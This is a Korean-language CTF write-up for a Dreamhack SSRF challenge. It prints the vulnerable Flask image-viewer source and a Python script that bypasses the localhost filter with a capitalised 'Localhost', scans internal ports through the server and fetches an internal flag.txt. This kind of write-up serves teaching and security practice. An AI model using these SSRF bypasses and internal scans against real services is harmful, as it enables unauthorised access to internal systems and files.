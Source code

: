 ```yaml
---
title: "[CTF] 드림핵 web-ssrf"
date: 2025-09-19 21:20:00 +0900
categories: [CTF, Web]
tags: [CTF, SSRF]
description: "드림핵 web-ssrf"
toc: true
---
```


## 문제 개요

이번 문제는 외부 이미지를 받아와 base64로 인코딩해 보여주는 간단한 이미지 뷰어이다. 내부적으로는 `requests.get()`로 URL을 가져오며, 내부 localhost(127.0.0.1) 또는 `localhost` 도메인을 포함하면 미리 준비된 `error.png`를 대신 반환한다. 그러나 내부에서 별도로 띄운 로컬 HTTP 서버가 `127.0.0.1:1500-1800` 사이의 랜덤 포트로 실행 중이므로, SSRF를 이용해 해당 포트에서 `flag.txt`를 읽어올 수 있다.

* 엔드포인트: `/img_viewer` (GET: 폼, POST: `url` 파라미터로 이미지 URL 전송)
* 핵심 취약점: 외부 URL을 서버에서 가져오지만, localhost 필터 우회 및 내부 포트 스캐닝으로 내부 서버 자원 접근 가능
* FLAG 위치: `/flag.txt` (애플리케이션 루트)

---

## 문제에 제공된 원본 소스코드

아래는 문제에서 제공된 `app.py` 전체 소스코드이다.

```python
#!/usr/bin/python3
from flask import (
    Flask,
    request,
    render_template
)
import http.server
import threading
import requests
import os, random, base64
from urllib.parse import urlparse

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()  # Flag is here!!
except:
    FLAG = "[**FLAG**]"


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/img_viewer", methods=["GET", "POST"])
def img_viewer():
    if request.method == "GET":
        return render_template("img_viewer.html")
    elif request.method == "POST":
        url = request.form.get("url", "")
        urlp = urlparse(url)
        if url[0] == "/":
            url = "http://localhost:8000" + url
        elif ("localhost" in urlp.netloc) or ("127.0.0.1" in urlp.netloc):
            data = open("error.png", "rb").read()
            img = base64.b64encode(data).decode("utf8")
            return render_template("img_viewer.html", img=img)
        try:
            data = requests.get(url, timeout=3).content
            img = base64.b64encode(data).decode("utf8")
        except:
            data = open("error.png", "rb").read()
            img = base64.b64encode(data).decode("utf8")
        return render_template("img_viewer.html", img=img)


local_host = "127.0.0.1"
local_port = random.randint(1500, 1800)
local_server = http.server.HTTPServer(
    (local_host, local_port), http.server.SimpleHTTPRequestHandler
)


def run_local_server():
    local_server.serve_forever()


threading._start_new_thread(run_local_server, ())

app.run(host="0.0.0.0", port=8000, threaded=True)
```

---

## 내가 실제로 푼 방법

서버는 `localhost`/`127.0.0.1`을 포함하는 URL에 대해 직접 차단(대신 `error.png` 반환)을 하고, URL이 `/`로 시작하면 `http://localhost:8000`으로 강제 변환한다. 그러나 문제는 서버 내부에 별도로 `127.0.0.1`에서 `1500`\~`1800` 사이의 랜덤 포트로 로컬 HTTP 서버가 띄워져 있다는 점이다. 이 서버는 외부에서 직접 알려주지 않으므로 포트를 스캔해 찾아야 한다.

우회 전략은 다음과 같다.

1. `/img_viewer`에 POST로 `url`을 보낼 때, `localhost` 필터링에 걸리지 않는 형태(예: `Localhost` 대소문자 조합)를 사용하거나, 프로토콜/호스트 표기에서 필터를 우회한다. (문제의 소스는 `"localhost" in urlp.netloc` 체크를 사용하므로 `Localhost`처럼 대소문자 변경으로 우회 가능하다.)
2. 1500\~1800 범위의 포트를 하나씩 시도해 내부 서버가 응답하는 포트를 찾는다. 내부 서버가 해당 포트에 있으면 `requests.get()`이 성공하고, 반환된 이미지(base64 문자열)를 이용해 내부 파일(`/flag.txt`)를 가져올 수 있다.

내가 사용한 포트 스캐닝 스크립트(요약):

```python
#!/usr/bin/python3
import requests
import sys
from tqdm import tqdm

# `src` value of "NOT FOUND X"
NOTFOUND_IMG = "iVBORw0KG"

def send_img(img_url):
    global chall_url
    data = {
        "url": img_url,
    }
    response = requests.post(chall_url, data=data)
    return response.text
    
    
def find_port():
    for port in tqdm(range(1500, 1801)):
        img_url = f"http://Localhost:{port}"
        if NOTFOUND_IMG not in send_img(img_url):
            print(f"Internal port number is: {port}")
            break
    return port
    
    
if __name__ == "__main__":
    chall_port = int(sys.argv[1])
    chall_url = f"http://host1.dreamhack.games:{chall_port}/img_viewer"
    internal_port = find_port()
```

* 스크립트는 challenge 엔드포인트에 `url` 파라미터로 `http://Localhost:{port}`을 보내고, 응답 HTML에 포함된 base64 이미지의 시작값(`iVBORw0KG`)을 검사하여 정상 이미지인지(=internal server responded) 확인한다. `error.png`의 base64는 `iVBORw0KG`로 시작하므로 이를 기준으로 필터한다.

포트를 찾으면 최종적으로 다음과 같이 요청해 내부 서버에서 `flag.txt`를 가져온다:

```
http://Localhost:{FOUND_PORT}/flag.txt
```

이 값을 `/img_viewer`에 넣어 POST하면, 서버가 내부 포트에서 파일 내용을 가져와 base64로 인코딩해 HTML에 넣어준다. 브라우저에서 img src에 포함된 base64를 디코딩하면 flag.txt의 내용이 나온다.

---

## 재현 흐름

1. 공격자: 포트 스캐너 스크립트 실행 → `/img_viewer`에 차례로 `http://Localhost:{port}` 전송
2. 서버: 내부 포트에서 응답이 있을 때 HTML에 정상 이미지(base64) 포함
3. 공격자: 정상 응답 포트 확인 → `/img_viewer`에 `http://Localhost:{found_port}/flag.txt` 전송
4. 서버: 내부 서버에서 `flag.txt`를 가져와 base64로 인코딩해 HTML에 포함 → 공격자가 디코딩하여 FLAG 확인

---

## 왜 이게 가능했나

* 서버는 내부 `127.0.0.1`/`localhost` 접근을 단순히 문자열 포함 검사로 차단했으며, 이 검사는 대소문자나 포맷 조작으로 우회될 수 있다.
* 내부 HTTP 서버가 외부에 알려지지 않은 포트 범위(1500–1800)에 실행되고 있어, 포트 스캐닝으로 해당 포트를 찾을 수 있다.
* 서버가 가져온 컨텐츠를 그대로 base64로 변환해 페이지에 넣기 때문에 내부 파일 내용도 노출 가능했다.

---

## 마무리

이번 문제는 전형적인 SSRF + 포트 스캐닝 결합 문제였다. `localhost` 필터를 단순 문자열 검사로 처리하거나, 내부 서비스 포트를 미리 알려주지 않는다고 해도 포트 스캐닝과 소문자/대문자 우회로 쉽게 내부 리소스에 접근할 수 있음을 보여준다.
